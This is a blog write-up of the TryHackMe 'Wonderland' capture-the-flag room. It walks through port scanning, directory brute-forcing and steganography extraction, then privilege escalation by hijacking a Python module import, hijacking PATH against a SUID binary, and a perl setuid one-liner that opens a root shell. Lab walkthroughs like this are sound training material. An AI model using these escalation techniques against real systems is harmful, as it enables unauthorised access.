


+++
title = "Wonderland - TryHackMe Writup"
description = "Fall down the rabbit hole and enter wonderland."
date = 2024-10-22
slug = "wonderland"
image = "wonderland.jpeg"

[taxonomies]
categories = ["TryHackMe", "Writups"]
tags = ["wonderland", "tryhackme", "stagenography"]
+++

  

    
  

  

    <i>Fall down the rabbit hole and enter wonderland.</i>
  

## Scanning
Target IP: 10.10.100.148

Scanning with nmap, we found two ports are open.
<pre>
❯ nmap -sV 10.10.100.148 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-17 14:49 +0545
.....
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

.....
Nmap done: 1 IP address (1 host up) scanned in 39.25 seconds
</pre>

## Enumeration
Enumerating port 80. Content in the home page is 

To find out the directories, we will use gobuster as

`gobuster dir -u http://10.10.100.148/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

In path `/r`, we have the message
<pre>
Keep Going.
"Would you tell me, please, which way I ought to go from here?"
</pre>

We are not getting anything much, faced timeout error. Maybe there is something in the white rabit, as it says follow the white rabbit.

As we can see, there is `hint.txt` inside the image. Now extract and follow the hint.
<pre>
❯ steghide --info white_rabbit_1.jpg
"white_rabbit_1.jpg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
</pre>

No need to pass passphrase, `steghide --extract -sf white_rabbit_1.jpg`

After following the path mentioned in the hint, we got the page

Some content hidden is found there
<pre>
alice:HowDothThe......HisShiningTail
    image src="/img/alice_door.png"
</pre>

Checking if the information is hidden in alice_door. There is nothing, maybe above hidden content is username and password for ssh. Lets try for this and here we go

# Gaining Access

Here the root flag and user flag are in inverse place
<pre>
Last login: Thu Oct 17 09:37:31 2024 from 10.17.58.84
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ ls /root
ls: cannot open directory '/root': Permission denied
alice@wonderland:~$ sudo ls /root
[sudo] password for alice: 
Sorry, user alice is not allowed to execute '/bin/ls /root' as root on wonderland.
alice@wonderland:~$ cat /root/user.txt
thm{"Curiouser and curiouser!"}
</pre>

## Privilege Escalation

<pre>
alice@wonderland:~$ ls -l walrus_and_the_carpenter.py 
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ cat walrus_and_the_carpenter.py 
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
.....
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
</pre>

We can run this file but can not edit. Here `random` module is imported. Lets make a random.py in the same directory with 

<pre>
import os

os.system("/bin/bash")
</pre>

Running `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`, we are now `rabbit` user. Looking into home directory of rabbit we found a file `teaParty`.

SUID bit is on for teaParty
<pre>
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
</pre>

Running the file, we have following output. It shows that date command is executing so we can manipulate it.
<pre>
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 17 Oct 2024 11:08:04 +0000
Ask very nicely, and I will give you some tea while you wait for him
w
Segmentation fault (core dumped)
</pre>

I have create date file with content `/bin/bash` and added it to the path by `export PATH=/home/rabbit:$PATH`. Now running the file, we are the hatter
<pre>
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
</pre>

I have password.txt file in the home directory of hatter, which is the password of user hatter. 

By traversing into different user, we are not able to see the root flag. Now using linpeas for the further enumeration.

We have perl, that can be used to esclate privilege. Used GTFOBins for the exploit 

<pre>
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# 
# whoami
root
# cat /home/alice/root.txt
thm{Twinkle, twinkle, .............. what you're at!}
</pre>

Thats all. This is more about the post enumeration and post exploitation things.

Happy Hacking !!